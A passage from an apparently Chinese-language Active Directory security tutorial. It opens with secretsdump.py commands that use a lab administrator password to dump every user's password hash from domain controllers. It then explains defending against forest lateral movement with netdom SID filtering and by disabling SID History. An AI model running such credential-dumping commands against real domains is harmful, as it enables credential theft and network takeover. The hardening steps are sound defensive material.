python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.13 -just-dc
#导出域 beijing.xie.com 内所有用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.14 -just-dc
```

## 域林横向攻击防御

### SID 过滤

在同一个域森林内部，SID History 属性没有被 SID 过滤机制保护，导致攻击者可以利用 SID History 属性进行权限提升。而在跨森林的域信任关系中，SIDHistory 属性被 SID 过滤机制所保护，因此攻击者无法通过 SID History 属性进行跨森林横向攻击。这也是微软宣传的域森林是活动目录的安全边界的原因所在。因此，**针对域林横向攻击防御的最佳手段就是配置域森林内部的 SID 过滤**。

#### 如何开启 SID 过滤

使用微软官方提供的 netdom 工具来开启 SID 过滤。

使用 netdom 执行如下命令开启域 shanghai.xie.com 到域 xie.com 的 SID 过滤。

```
netdom trust /d:shanghai.xie.com xie.com /quarantine:yes
```



### 禁用 SID History

禁用之前一定要确保当前域内正常的资源访问不涉及到 SID History。禁用 SID History 可以使用微软提供的 netdom 工具，执行如下命令即可禁用：

```
#禁用 shanghai.xie.com 到 xie.com 的 SID History
netdom trust /d:shanghai.xie.com xie.com /EnableSIDHistory:no
#禁用 beijing.xie.com 到 xie.com 的 SID History
netdom trust /d:beijing.xie.com xie.com /EnableSIDHistory:no
```

